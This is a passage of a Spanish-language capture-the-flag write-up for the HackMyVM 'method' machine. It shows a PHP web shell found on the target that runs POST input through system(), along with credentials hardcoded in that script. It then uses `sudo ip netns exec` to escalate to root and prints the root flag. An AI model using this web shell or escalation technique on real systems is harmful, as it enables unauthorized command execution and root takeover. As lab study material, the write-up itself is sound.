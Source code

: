 ```php
<?php
if(isset($_GET['HackMyVM'])){
        echo "Now the main part what it is loooooool";
        echo "<br>";
echo "Try other method";
        die;
}
if(isset($_POST['HackMyVM'])){
        echo "You Found ME : - (";
        echo "<pre>";
        $cmd = ($_POST['HackMyVM']);
        system($cmd);
        echo "</pre>";
        die;
}
else {
header("Location: https://images-na.ssl-images-amazon.com/images/I/31YDo0l4ZrL._SX331_BO1,204,203,200_.jpg");
}
$ok="prakasaka:th3-!llum!n@t0r";
?>
```

Veremos lo que parece las credenciales del usuario `prakasaka`, vamos a probarlo haciendo lo siguiente:

```shell
su prakasaka
```

Metemos como contraseña `th3-!llum!n@t0r` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for prakasaka on method:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User prakasaka may run the following commands on method:
    (!root) NOPASSWD: /bin/bash
    (root) /bin/ip
```

Veremos que podemos ejecutar el binario `ip` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
sudo ip netns delete foo
```

Info:

```
Cannot create namespace file "/run/netns/foo": File exists
# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`:

> root.txt

```
fc9c6eb6265921315e7c70aebd22af7F
```
